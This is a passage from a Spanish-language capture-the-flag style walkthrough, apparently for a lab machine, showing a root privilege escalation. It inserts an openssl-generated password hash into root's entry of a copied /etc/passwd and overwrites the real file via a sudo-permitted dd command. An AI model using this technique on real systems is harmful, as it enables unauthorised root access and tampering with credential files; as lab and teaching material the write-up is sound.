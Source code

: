 pondremos la contraseña que queramos ya que esa será la nueva contraseña del usuario root

![[20250802172645.png]](candy-images/20250802172645.png)

una vez escrita la contraseña nos devolverá esto `$1$TdTa/Isd$1XMz0MxaRRXJ6B11MTcvl0` 

ahora vamos a modificar el /etc/passwd que teniamos en el archivo pass

```bash
nano pass
```

![[20250802172819.png]](candy-images/20250802172819.png)

cambiaremos la primera x de  `root:x:0:0:root:/root:/bin/bash` por el codigo del openssl `root:$1$TdTa/Isd$1XMz0MxaRRXJ6B11MTcvl0:0:0:root:/root:/bin/bash` 

y aguardamos el archivo

ahora utilizando el privilegio de sudo en el binario dd vamos a ejecutar el siguiente comando

```bash
cat pass | sudo dd of=/etc/passwd
```
